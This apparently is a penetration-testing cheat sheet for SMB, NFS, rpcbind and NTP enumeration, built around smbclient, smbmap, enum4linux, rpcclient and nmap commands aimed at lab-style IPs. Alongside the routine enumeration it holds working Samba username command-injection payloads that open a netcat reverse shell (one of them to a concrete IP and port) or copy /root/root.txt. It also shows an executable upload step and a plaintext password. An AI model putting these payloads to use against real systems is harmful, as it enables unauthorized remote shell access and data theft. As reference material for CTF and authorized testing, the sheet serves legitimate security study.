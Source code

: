 https://github.com/absolomb/Pentesting/blob/master/guides/Initial%20Enumeration.md
#### smbmap

  smbmap -H "10.10.185.43" | tee "recon/smbmap_10.10.185.43.txt"    
  smbmap -H "10.10.185.43" -u milesdyson -p ')s{A&2Z=F^n_E.B`'
  smbmap -u null -p "" -H 10.10.83.190  -P 445 -R 
  
  `smbclient \\\\10.10.104.121\\nt4wrksv`
  .smb: \> put pwn.exe                                                                                                                                       │        dr--r--r--   
#### smbclient

  smbclient --user=milesdyson //10.10.185.43/milesdyson 

  smbclient -L "//10.10.185.43/" -U "guest"%| tee "recon/smbclient_10.10.185.43.txt"              

  smbclient -L x.x.x.x
  
  smbmount //x.x.x.x/share /mnt –o username=hodor,workgroup=hodor
  
  smbclient \\\\\\x.x.x.x\\\share
  
  enum4linux -a ip
  
  rpcclient -U "" x.x.x.x  #Anonymous bind using rpcclient / Null connect
  
  smbclient //MOUNT/share #Connect to SMB share

  smbclient -U "/=&#92;&#96;nohup nc -e /bin/sh LHOST LPORT&#92;&#96;" -N -I ip //LAME/tmp

  nmap -T4 -sS -sC -Pn -A --script smb-vuln* ip
  
  smbclient //ip/tmp
  logon "./=`nohup nc -e /bin/sh LHOST LPORT`"

  smbclient -U "/=\`nohup cat /root/root.txt > /tmp/ttt\`" -N -I ip //LAME/tmp

  smbclient -U "/=\`nohup nc -e /bin/sh 10.10.15.11 60000\`" -N -I ip //LAME/tmp

mount
  mount ip:/vol/share /mnt/nfs  -nolock
  
  mount -t cifs -o username=user,password=pass,domain=blah //ip.X/share-name /mnt/cifs
  
  mount -t cifs //x.x.x.x/share /mnt
  
  mount -t cifs -o username=hodor,password=hodor //x.x.x.x/share /mnt
  
#### Mounting File Share
  showmount -e IPADDR
  sudo mount -t fuse.vmhgfs-fuse .host:/ /mnt/hgfs -o allow_other

# Port 111 - Rpcbind
	rpcinfo -p INSERTIPADDRESS

# Port 123-NTP
	ntp-info and ntp-monlist
	Check ntpd version for exploits
# Port 139/445 - SMB
	• Name:
	• Version:
	• Domain/workgroup name:
	• Domain-sid:
	• Allows unauthenticated login:

nmap --script=smb-enum-shares.nse,smb-ls.nse,smb-enum-users.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-security-mode.nse,smbv2-enabled.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse,smbv2-enabled.nse INSERTIPADDRESS -p 445
	
enum4linux -a INSERTIPADDRESS
rpcclient -U "" INSERTIPADDRESS		-c options
srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall
    smbclient -L INSERTIPADDRESS
    smbclient //INSERTIPADDRESS/tmp
    smbclient \\\\INSERTIPADDRESS\\ipc$ -U john
    smbclient //INSERTIPADDRESS/ipc$ -U john 
	nmblookup -A INSERTIPADDRESS
